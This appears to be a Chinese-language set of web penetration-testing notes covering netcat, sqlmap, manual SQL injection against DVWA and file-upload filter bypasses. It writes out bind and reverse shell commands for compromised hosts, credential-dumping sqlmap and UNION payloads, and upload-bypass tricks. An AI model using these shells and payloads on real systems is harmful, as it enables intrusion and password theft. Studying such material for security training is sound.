# WEB篇

**tip:计算机网络常用端口汇总！总有你不知道的端口及对应的服务！**

| 端口 |                          服务及说明                          |
| :--: | :----------------------------------------------------------: |
|  20  |          ftp-data。FTP文件传输协议（默认数据端口）           |
|  21  |               ftp。FTP文件传输协议（控制端口）               |
|  22  |                     ssh。SSH远程登录协议                     |
|  23  |                Telnet。Telnet标准终端仿真协议                |
|  25  |             SMTP。简单邮件传输协议，用于发送邮件             |
|  37  |                        time。时间协议                        |
|  39  |                      rip。资源定位协议                       |
|  53  |                     domain。DNS域名服务                      |
|  80  |             HTTP。用于万维网服务的超文本传输协议             |
| 110  |              pop3。邮局协议版本3，用于接收邮件               |
| 161  |                   snmp。 简单网络管理协议                    |
| 443  | HTTPS。基于TLS/SSL的网页浏览端口，能提供加密和通过安全端口传输的另一种HTTP |
| 3389 |         Windows2000（2003）server远程桌面的服务端口          |

[更多……](https://www.douban.com/note/568630865/?start=100)


## 工具使用

### nc(NetCat瑞士军刀)

#### 简介

​		**Netcat** 常称为 nc，拥有“瑞士军刀”的美誉。nc 小巧强悍，可以读写TCP或UDP网络连接，它被设计成一个可靠的后端工具，能被其它的程序或脚本直接驱动。同时，它又是一个功能丰富的网络调试和开发工具，因为它可以建立你可能用到的几乎任何类型的连接，以及一些非常有意思的内建功能，它基于socket协议工作。在渗透测试领域，我们通常利用它来反弹shell。

#### 主要功能

+ Telnet功能
+ 获取banner信息
+ 传输文本信息
+ 传输文件/目录
+ 加密传输文件，默认不加密
+ 远程控制
+ 加密所有流量
+ 流媒体服务器
+ 远程克隆硬盘

#### 常用命令

+ `-u`：使用UDP协议传输
+ `-l`：开启监听
+ `-p`：指定端口
+ `-n`：以数字形式代表ip
+ `-v`：显示执行命令过程
+ `-t`：以telnet形式应答
+ `-z`：不进行交互，直接显示结果
+ `-w`：设置超时时间
+ `-e`：程序重定向

#### 常见的用法

##### 端口扫描

如果想单纯的端口扫描的话，使用其他工具如nmap会更好。nc端口扫描最主要的用途是：当我们获得了一个网站的权限之后，我们想再渗透进该网站的内网进行渗透。然而我们的nmap工具是不能扫描到内网的。所以这时我们可以把nc上传到web服务器上，利用他来扫描内网主机。而由于nc体积很小，所以不容易被发现。



##### 聊天

我们可以利用nc做一个简易版本的聊天工具，通过一边监听端口，一边发送消息去该端口，形成一个简易版本的服务端——客户端模型。

**服务器端**

~~~sh
nc -lvp 39990 #监听39990端口 -l 监听  -v 显示详细信息  -p 指定端口
~~~

**客户端**

~~~shell
nc -nv 39.***.***.*** 39990 #连接到服务器的39990端口 -n 以数字的形式显示 -v显示详信息
~~~



##### 文件传输

我们可以利用nc往客户端传送文件

**服务器端**：

~~~shell
nc -vlp 39990 < a.txt
~~~

**客户端**：

~~~sh
nc -nv 39.***.***.*** 39990 > a.txt
~~~





##### 反弹shell

> **正向连接，意思就是我们主动连接肉鸡**
>
> 假如我们入侵到了一台主机上，我们可以通过执行以下命令将该主机的cmd(shell)权限弹到39990端口上

**肉鸡**

~~~sh
nc -lvp 39990 -t -e cmd.exe
~~~

然后我们的主机访问该肉鸡的39990端口

**我们的主机**

~~~shell
nc -nv 39.***.***.*** 39990
~~~





> 反向连接，意思就是我们监听端口，然后肉鸡主动连接到我们的主机

**我们的主机**

~~~sh
nc -vlp 39990
~~~

**肉鸡**

~~~sh
nc -nv -t -c 192.168.1.129 39990
~~~





##### 蜜罐

> 作为蜜罐，一直监听39990端口，直到Ctrl+C停止

~~~sh
nc -lp 39990 > log.txt   #监听8888端口，并且将日志信息写入log.txt中
~~~


## SQL注入

### 基本概念

+ SQL 注入是一种将 SQL 代码插入或添加到应用（用户）的输入参数中，之后再将这些参数传递给后台的 SQL 服务器加以解析并执行的攻击。
+ 攻击者能够修改 SQL 语句，该进程将与执行命令的组件（如数据库服务器、应用服务器或 WEB 服务器）拥有相同的权限。
+ 如果 WEB 应用开发人员无法确保在将从 WEB 表单、cookie、输入参数等收到的值传递给 SQL 查询（该查询在数据库服务器上执行）之前已经对其进行过验证，通常就会出现 SQL 注入漏洞。



### 常用工具

+ sqlmap
+ ……

#### sqlmap工具

##### sqlmap简介

sqlmap支持五种不同的注入模式：

1. 基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
2. 基于时间的盲注，即不能根据页面的返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
3. 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
4. 联合查询注入，可以使用union的情况下的注入。
5. 堆查询注入，可以同时执行多条语句的执行时的注入。

##### sqlmap支持的数据库

`mysql、oracle、postgresql、Microsoft SQL server、Microsoft access、IBM DB2、sqlite、Firebird, Sybase和SAP MaxDB`

##### 检测注入

+ **基本格式**

~~~
get格式：
sqlmap -u "http://xxxx.xxx/index.php?id=x" 
默认使用level1检测全部数据库类型
sqlmap -u "http://xxx.xxx/index.php?id=x" --dbms mysql --level 3
指定数据库类型为mysql 级别为3（共5级，级别越高，检测越全面）
~~~

+ **跟随302跳转**

  当注入页面错误的时候，自动跳转到另一个页面的时候需要跟随302，当注入错误的时候，先报错再跳转的时候，不需要跟随302。目的：要追踪到错误信息。

+ **cookie注入**

~~~
当程序有防止get注入的时候，可以使用cookie注入
sqlmap -u "http://xxx.xxx/index.php" --cookie  “id=11” –level 2（只有level达到2才会检测cookie）
~~~

+ **post数据包注入**

~~~
可以使用burpsuite工具抓取post数据包
sqlmap -r "post数据包存放路径" -p "注入参数"  
~~~

##### 注入成功后

+ **获取数据库基本信息**

~~~
sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 –dbs
查询有哪些数据库
sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D test –tables
查询test数据库中有哪些表
sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D test -T admin –columns
查询test数据库中admin表有哪些字段
sqlmap -u "http://xxx.xxx/index.php?id=X" -D test -T admin -C "username,password" --dump
dump出字段username与password中的数据
~~~

+ **从数据库中搜索字段**

~~~
sqlmap -r "文件路径" -D "数据库名" --search -C admin,password 
在数据库中搜索字段admin与password
~~~

+ **读取与写入文件**

~~~
	首先需要找个网站的物理路径，其次需要有可写或可读的权限
	--file-read=RFILE 从后端的数据库管理系统文件系统读取文件（物理路径）
	--file-wirte=WFILE 编辑后端的数据库管理系统文件系统上的本地文件
	--file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径

~~~

##### sqlmap详细命令

+ **常用命令**

  + `--is-dba`:  当前用户权限（是否为root权限）
  + `--dbs`:   枚举所有数据库
  + `--current-db`:  显示网站当前数据库
  + `--users`:  枚举所有数据库用户
  + `--current-user`：显示当前数据库用户
  + `--random-agent`： 构造随机user-agent
  + `--passwords`： 显示数据库密码
  + `proxy http://xxx.xxx  --threads 10 `：(可以 自定义线程加速)代理
  + `--time-sec`: DBMS响应的延迟时间（默认为5秒）   

+ **options(选项)：**

  + `--version`：显示sqlmap的版本号

  + `-h、--help`：显示帮助信息

  + `-v `： VERBOSE 详细级别：0-6（默认为1）

  + ~~~
    保存进度继续跑：
    sqlmap -u "网址" --dbs-o "sqlmap.log"  保存进度
    sqlmap -u "网址"  --dbs-o "sqlmap.log"  --resume 恢复已保存进度
    
    ~~~

+ **Target(目标)：**

  以下至少需要设置其中一个选项，设置目标URL:

  + `-d`：直接连接到数据库
  + `-u`:  URL 连接目标 URL
  + `-l`:  LIST 从burpsuite或者WebScarab代理的日志中解析目标
  + `-r`:  REQUESTFILE  从一个文件中载入http请求
  + `-g`:  处理Google dork的结果作为目标URL
  + `-c`:  CONFIGFILE  从INI配置文件中加载选项

+ **Request（请求）**：

  这些选项可以用来指定如果连接到目标URL

  + `--data=DATA`:  通过post发送的数据字符串
  + `--cookie=COOKIE`:  http cookie头
  + `--cookie-urlencode`:  URL编码生成的cookie注入
  + `--drop-set-cookie`： 忽略响应的set-cookie头信息
  +  `--user-agent=AGENT`:  指定http User-Agent头
  + `--random-agent`： 使用随机选定的http user-agent头
  + `--referer=REFERER`：指定http Referer头
  + `--headers=HEADERS`:  换行分开，加入其他的http头
  + `--auth-type=ATYPE`:  http身份验证类型（基本、摘要或NTLM）
  + `--auth-cred=ACRED`:  http身份验证凭据
  + `--auth-cert=ACERT`:  http 认证证书
  + `--proxy=PROXY`:  使用http代理身份链接到目标URL
  + `--proxy-cred=PCRED`:  http代理身份验证凭据（用户名：密码）
  + `--ignore-proxy`：忽略系统默认的http代理
  + `--delay=DELAY`:  在每个http请求之间的延迟时间，单位为秒
  + `--timeout=TIMEOUT`:  等待连接超时的时间（默认为30秒）
  + `--retries=RETRIES` :  连接超时后重新连接的时间（默认为3秒）
  + `--scope=SCOPE`： 从所提供的代理日志中过滤目标的正则表达式
  + `--safe-url=SAFURL`:  在测试过程中经常访问的URL地址
  + `--safe-freq=SAFREQ` :  两次访问之间测试请求，给出安全的URL

+ **Enumeration（枚举）：**

  这些选项可以用来枚举后端数据库管理系统的信息、表中的结构以及数据。此外，也可以运行自己的sql语句。

  + `-b、--banner`:  检索数据库管理系统的标识
  + `--current-user`： 检索数据库管理系统当前用户
  + `--current-db`： 检索数据库管理系统当前数据库
  + `--is-dba`:  检测DBMS当前用户是否是root权限
  + `--users`:  枚举数据库管理系统所有用户
  + `--passwords`:  枚举数据库管理系统用户密码哈希值
  + `--privileges`:  枚举数据库管理系统用户的权限
  + `--roles`： 枚举数据库管理系统用户的角色
  + `--dbs`： 枚举数据库管理系统数据库
  + `-D `:  要进行枚举的指定数据库名
  + `-T`： 要进行枚举的指定数据库表名
  + `--tables`：枚举指定数据库中的表
  + `--columns`:  枚举指定表中的字段
  + `--dump`:  转储数据库管理系统的数据库中的表项
  + `--dump-all`:  转储所有的数据库表中的条目
  + `--search`： 搜索列，表或者数据库名称
  + `-C`： 要进行枚举的数据库列
  + `-U`:  用来进行枚举的数据库用户
  + `--exclude-sysdbs`:枚举表时排除系统数据库
  + `--sql-query`:  要执行的sql语句
  + `--sql-shell`:  提示交互式sql的shell

+ **Optimization(优化)：**

  这些选项可用于优化sqlmap的性能

  + `-o`： 开启所有的优化开关
  + `--predict-output`:  预测常见的查询输出
  + `--keep-alive`:  使用持久的http(s)连接
  + `--null-connection`:  从没有实际的http响应体中检索页面长度
  + `--threads`:  最大的http（s）请求并发量（默认为1）

+ **Injection（注入）**

  这些选项可以用来指定测试哪些参数， 提供自定义的注入payloads和可选篡改脚本

  + `-p`:  可测试注入的参数
  + `--dbms`:  强制后端的DBMS为此值
  + `–os`:  强制后端的DBMS操作系统为这个值
  + `--prefix`： 注入payload字符串前缀
  + `--suffix`：   注入payload字符串后缀
  + `–tamper`：  使用给定的脚本（S）篡改注入数据

+ **Detection(检测)：**

  这些选项可以用来指定在SQL盲注时如何解析和比较HTTP响应页面的内容。

  + `--level`： 执行测试的等级（1-5，默认为1）
  + `--risk`：执行测试的风险（0-3，默认为1）
  + `--string`:  查询时有效时在页面匹配字符串
  + `--regexp`:  查询时有效时在页面匹配正则表达式
  + `--text-only` :  仅基于在文本内容比较网页

+ **Techniques(技巧)：**

  这些选项可用于调整具体的SQL注入测试。

  + `--technique`:  sql注入技术测试（默认时BEUST）
  + `--time-sec`:  数据库管理系统响应的延迟时间（默认为5秒）
  + `--union-cols`:  定列范围用于测试union查询注入
  + `--union-char`:  用于暴力猜解列数的字符

+ **Fingerprint(指纹):**

  `-f, –fingerprint`:   执行检查广泛的DBMS版本指纹

  


### 手动注入基本步骤

```shell
判断是什么类型注入，有没有过滤关键字，是否能绕过
确定存在注入的表的列数以及表中数据那些字段可以显示出来
获取数据库版本，用户，当前连接的数据库等信息
获取数据库中所有表的信息
获取某个表的列字段信息
获取相应表的数据
```

### 注入类型

SQL注入分为很多种，有联合注入、布尔注入、报错注入、时间注入、堆叠注入、二次注入、宽字节注入、cookie注入等等，这些注入所产生的的原理都是一样的。

#### 整数型注入

整数型注入就是输入的数据两边没有用引号或其他符号包起来，可以直接在输入的数据后面进行SQL语句的拼接,语句的最后不需要用 `# ` 或者 `--+`注释。

> 例如：
>
> 1  order by 3、1 union select 1,2,3

#### 字符型注入

字符型注入要考虑到引号闭合和注释

> 例如：
>
> 1' order by 3 # 或者 1' union select 1,2,3 #

#### 报错注入

+ 原理：构造 payload 让信息通过错误提示回显出来。

  

+ 平时我们最常用到的三种报错注入方式分别是：floor()、updatexml()、extractvalue()。

~~~sql
1. select count (*) ,concat ((此处加入执行语句),0x7e,floor (rand (0)*2))  as a from information _schema.tables group by a;
2. extractvalue (1,concat (0x7e,(此处加入执行语句),0x7e));
3. select updatexml (1,concat (0x7e,(此处加入执行语句),0x7e),1);
~~~

[详细解释]([SQL 注入 报错注入 - Keefe's Blog | 每天都要热爱技术 -- 网络安全技术博客 (aiyuanzhen.com)](http://aiyuanzhen.com/index.php/archives/34/))

#### 布尔注入

+ 特点：当页面存在注入，但是没有显示位，且没有用echo "mysql_error()"输出错误信息时可以用， 它一次只能猜测一个字节，速度慢，但是只要存在注入就能用
+ 利用方式：用and连接前后语句：`www.xxx.com/aa.php?id=1` and (注入语句) --+ 根据返回页面是否相同来得到数据
+ 布尔注入常用函数

~~~sql
length(str)：返回str字符串的长度。
substr(str, pos, len)：将str从pos位置开始截取len长度的字符进 行返回。注意这里的pos位置是从1开始的，不是数组的0开始
mid(str,pos,len):跟上面的一样，截取字符串
ascii(str)：返回字符串str的最左面字符的ASCII代码值。
ord(str):同上，返回ascii码
if(a,b,c) :a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0
~~~

#### 堆叠注入

##### 定义

Stacked Injection(堆叠注入)从名词的含义就可以看到应该是一堆SQL语句（多条）一起执行。真实情况下也是这样的，mysql在命令行中每一条语句结尾加上`;`表示语句结束。这样我们就想到了是不是可以多条SQL语句一起使用。这个就叫Stacked Injection。

##### 原理

 在SQL中，分号（`;`）是用来表示一条sql语句的结束。试想一下我们在 ; 结束一个sql语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。用户输入：1; DELETE FROM products服务器端生成的sql语句为： Select * from products where productid=1;DELETE FROM products当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。

##### 局限性

堆叠注入实际遇到很少，其可能受到API或者数据库引擎，又或者权限的限制只有当调用数据库函数支持执行多条sql语句时才能够使用，利用mysqli_multi_query()函数就支持多条sql语句同时执行，但实际情况中，如PHP为了防止sql注入机制，往往使用调用数据库的函数是mysqli_ query()函数，其只能执行一条语句，分号后面的内容将不会被执行，所以可以说堆叠注入的使用条件十分有限，一旦能够被使用，将可能对网站造成十分大的威胁。

##### 使用场景

+ 在union select等关键字被过滤时，可以考虑使用堆叠注入

#### 二次注入

+ 第一步：插入恶意数据

  第一步进行数据库插入数据的时候，仅仅对其中的特殊字符进行了转义，在写入数据库的时候还是保留了原来的数据，但是数据本身包含恶意内容。

+ 第二步：引用恶意数据

  再将数据库存入到数据库中之后，开发者就认为数据是可信的。在下一次需要进行查询的时候，直接数据库中取出了恶意数据，没有进行进一步的检验和处理，这样就会造成SQL的二次注入。
  
#### 盲注


盲注就是在注入过程中，获取的数据不能回显至前端页面。此时，我们需要利用一些方法进行判断或者尝试，这个过程称为盲注。盲注分为以下三类：

+ **基于布尔的SQL盲注--逻辑判断**

  regexp，like，asciI，left，ord,mid

+ **基于时间的SQL盲注--延时判断**

  if，sleep

+ **基于报错的SQL盲注--报错回显(优先使用)**

  floor，updatexml，extractvalue

### 常见注入函数（参数）

+ `user()`：当前数据库用户
+ `database()`: 当前数据库名
+ `version()`: 当前使用的数据库版本
+ `@@datadir()`:  数据库存储数据路径
+ `@@basedir  `  MYSQL获取安装路径
+ `concat()`:  联合数据，用于联合两条数据的结果。如`concat(username,0x3a,password)`
+ `concat_ws(0x3a,username,password)`:  用法类似
+ `mid(column_name,start[,length])`: 截取字符串
+ `substr(column_name,start[,length])`：参数描述同mid()函数，第一个参数为要处理的字符串，start为开始位置，length为截取的长度。
+ `left(string, n )`：Left()得到字符串左部指定个数的字符
+ `ASCII(str) =ORD(str)`:  返回字符串str的最左面字符的ASCII代码值。如果str是空字符串，返回0。如果str是NULL，返回NULL
+ `hex() 、 unhex()`:  用于hex编码解码
+ `load_file()`:   以文本方式读取文件，在Windows中，路径设置为\\\
+ `group_concat()`：
+ `floor()`：返回小于等于该值的最大整数,也可以理解为向下取整，只保留整数部分
+ `rand()`：可以用来生成0到1之间的随机数
+ `if(a,b,c)` :a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0

### 语法参考与小技巧

#### 参数类型

数字、字符、搜索、JSON等

#### 提交方式

POST、GET、Cookie、Request


#### 行内注释

==作用就是把后面的特殊符号给注释掉，避免语法错误==

+ `--`    

```
SELECT parentId,parentName FROM `parent` where parentId = '2016000011' UNION SELECT 1,DATABASE() -- '
```

==注：`--`符号之后要加一个空格==

+ `#`

```shell
 SELECT parentId,parentName FROM `parent` where parentId = '2016000011' UNION SELECT 1,DATABASE() #'
```

#### 利用information_schema数据库

+ 利用的前提是：首先应该知道database（）[也就是当前数据库的名字]
+ 在知道当前使用的数据库的名字之后，利用如下SQL语句进行查询

```shell
select 要查询的字段名 from 库名.表名 where 已经字段名字=已知条件的值
```

+ 因为mysql5.0以上版本自带数据库，information_schema库中记录着当前mysql中所有的数据库名、表名、列名等信息。下列是存放各信息的名字。

```
information_schema.schemata: 记录数据库信息的表
information_schema.tables: 记录表名信息的表
information_schema.columns: 记录列名信息的表
schema_name:  数据库名
table_name:  表名
column_name:  列名
table_schema:  数据库名
```

+ dvwa SQL注入实例**（联合注入）**

  > ==第一步==确定显示的列数，通过 `order by 或者union select 1,2···*`语句判断列数

  + 正确结果

  

  + 错误结果

  

  **或者直接就是不显示任何错误信息的反馈，也就是盲注**

  > ==第二步==确定所有的数据库或者当前数据库

  ~~~
  1. 'union select 1,database()#
  
  或者
  
  2.  'union select 1,schema_name from information_schema.schemata  #
  
  ~~~

  第一种结果：



​		第二种结果：

​		

​	

> ==第三步==根据获取的数据库来确定当前数据库中所有的表

```
'union select 1,table_name from information_schema.tables where table_schema="dvwa"#
```

​		结果：获取了表的信息



> ==第四步==根据获取的表来查看表中所含的字段信息

~~~
'union select 1,column_name from information_schema.columns where table_name="users"#
~~~

结果：获取了字段的信息


> ==第五步==根据获取的字段信息去获取字段内容值

~~~
'union select 1, concat(user,0x3a,password) from users #
~~~

结果：获取了表中所有某些字段的内容。**注：0x3a代表的字符是冒号":"**



最终获取了想要获得的用户账号密码，使用MD5撞库解密就可以了。


#### 文件读写操作

mysql数据库仅有的

`load_file()`：读取函数

`into outfile或者into dumpfile`：导出函数

+ 路径获取常见方法：

  报错显示、遗留文件、漏洞报错、平台配置文件、爆破等

+ 常见写入文件问题：魔术引号开关
  
  + magic_quotes_gpc


### waf绕过



## 文件上传


>1. 什么是文件上传？
>2. 文件上传漏洞有哪些伤害？
>3. 文件上传漏洞如何查找及判断？
>4. 文件上传漏洞有哪些需要注意的地方？
>5. 关于文件上传漏洞在实际应用中的说明？

​		文件上传漏洞是指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。常见场景是web服务器允许用户上传图片或者普通文本文件保存，而用户绕过上传机制上传恶意代码并执行从而控制服务器。**显然这种漏洞是getshell最快最直接的方法之一**，需要说明的是上传文件操作本身是没有问题的，问题在于文件上传到服务器后，服务器怎么处理和解释文件。

### 文件上传常见验证

+ 后缀名：类型、文件头等
+ 后缀名：黑名单、白名单
+ 文件类型：MIME信息
+ 文件头：内容头信息

### 绕过上传检查

+ 前端检查扩展名

  抓包绕过即可

+ Content-Type检测文件类型

  抓包修改Content-Type类型，使其符合白名单规则

+ 服务端添加后缀

  尝试%00截断

+ 服务端扩展名检测

  利用解析漏洞

+ Apache解析

  Apache对后缀解析都是从右向左的。`phpshell.php.rar.rar.rar.rar` 因为 Apache 不认识 `.rar` 这个文件类型，所以会一直遍历后缀到 `.php`，然后认为这是一个 PHP 文件。

+ IIS解析

  IIS 6下当文件名为abc.asp;xx.jpg时，会将其解析为abc.asp

+ PHP CGI路径解析

  当访问 `http://www.a.com/path/test.jpg/notexist.php` 时，会将 `test.jpg` 当做 PHP 解析， `notexist.php` 是不存在的文件。此时 Nginx 的配置如下

  ~~~xml
  location ~ \.php$ {
    root html;
    fastcgi_pass 127.0.0.1:9000;
    fastcgi_index index.php;
    fastcgi_param SCRIPT_FILENAME /scripts$fastcgi_script_name;
    include fastcgi_param;
  }
  ~~~

+ 其他方式

+ 后缀大小写、双写、特殊后缀如php5等，修改包内容的大小写绕过WAF等。

## XSS跨站脚本攻击

